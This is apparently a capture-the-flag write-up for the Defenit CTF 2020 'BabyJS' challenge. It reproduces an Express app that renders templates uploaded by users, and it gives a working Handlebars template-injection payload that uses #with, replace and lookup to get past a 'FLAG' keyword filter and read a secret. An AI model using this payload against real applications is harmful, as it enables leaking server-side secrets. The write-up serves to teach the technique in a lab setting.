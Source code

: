 # BabyJS
*Defenit CTF 2020 - Web ???*<br>
*Writeup by Payload as TryToEatSushi*


## Problem

Render me If you can.

## Look up

```javascript

/* ... */
if (typeof content === 'string' && content.indexOf('FLAG') != -1 || typeof content === 'string' && content.length > 200) {
    res.end('Request blocked');
    return;
}
/* ... */

app.get('/', (req, res) => {
    const { p } = req.query;
    if (!p) res.redirect('/?p=index');
    else res.render(p, { FLAG, 'apple': 'mint' });
});

app.post('/', (req, res) => {
    const { body: { content }, userDir, saveDir } = req;
    const filename = crypto.randomBytes(8).toString('hex');

    let p = path.join('temp', userDir, filename)
    
    fs.writeFile(`${path.join(saveDir, filename)}.html`, content, () => {
        res.redirect(`/?p=${p}`);
    })
});

```

Okay, we can render our own template which has <=200 bytes, and don't contians string `FLAG`. Template engine is handlebars.

## Handlebars 101

Handlebars save there own templating environ in object `this`. In fact, when we try `{{ log this }}`, then node.js console shows the structure of `this` and it includes `FLAG` and `apple`.

And, there is a one more important feature `lookup`. It returns a value of object with key. In here, key can be either string or identifier. Like, when `a='FLAG'` then, `{{lookup this a}}` will give a flag.

Finally, `#with` statement allows us to do a lot of things. Actually, it's really like javascript's `with`, which moves scope into the given object. 

## Exploit


```
{{#with this as |k|}}
  {{#with "FLag"}}
    {{#with (replace "ag" "AG") as |payload|}}
      {{lookup k payload}}
    {{/with}}
  {{/with}}
{{/with}

```

Simple explantation:
1. Save top `this` as k to prevent this is overwritten in other with block
2. with "FLag", move scope into `String "FLag"`
3. Call member function `replace` under "FLag", to make "FLAG". Save it to payload
4. Lookup saved k and get flag.

Anyway, the flag is not related with this challenge. Actually, it'll be a great hint of AdultJS.

**`Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}`**
